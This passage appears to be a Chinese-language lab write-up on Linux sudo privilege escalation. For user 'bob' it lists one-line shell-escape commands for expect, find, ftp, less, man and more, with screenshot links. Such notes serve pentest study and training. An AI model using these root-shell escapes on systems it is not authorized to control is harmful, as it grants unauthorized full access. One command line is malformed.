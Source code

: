 ```bash
sudo expect -c 'spawn /bin/sh;interact'
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151414.png" alt="image-20240224225351372" style="zoom:50%;" />

### find(bob)

```bash
sudo find . -exec /bin/sh \; -quit
# -quit前面的空格！！！
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151415.png" alt="image-20240224225532579" style="zoom:50%;" />

### ftp(bob)

```bash
sudo ftp
!/bin/sh
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151416.png" alt="image-20240224225833328" style="zoom:67%;" />

### Less(bob)

> less 与 more 类似，但使用 less 可以随意浏览文件，而 more 仅能向前移动，却不能向后移动，而且 less 在查看之前不会加载整个文件。

```bash
sudo less /etc/passwd
!/bin/sh
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151417.png" alt="image-20240224230427559" style="zoom:50%;" />

### Man(bob)

> Linux提供了丰富的帮助手册，当你需要查看某个命令的参数时不必到处上网查找，只要man一下即可。可以使用man man 查看man的使用方法。

```bash
sudo man man
!/bin/sh
```

![image-20240224230527628](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151418.png)

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402250151419.png" alt="image-20240224230545762" style="zoom:50%;" />

### More(bob)

> Linux more 命令类似 cat ，不过会以一页一页的形式显示，更方便使用者逐页阅读，而最基本的指令就是按空白键（space）就往下一页显示，按 b 键就会往回（back）一页显示，而且还有搜寻字串的功能（与 vi 相似），使用中的说明文件，请按 h 。

```bash
TERM = sudo more /etc/profile
!/bin/sh
```
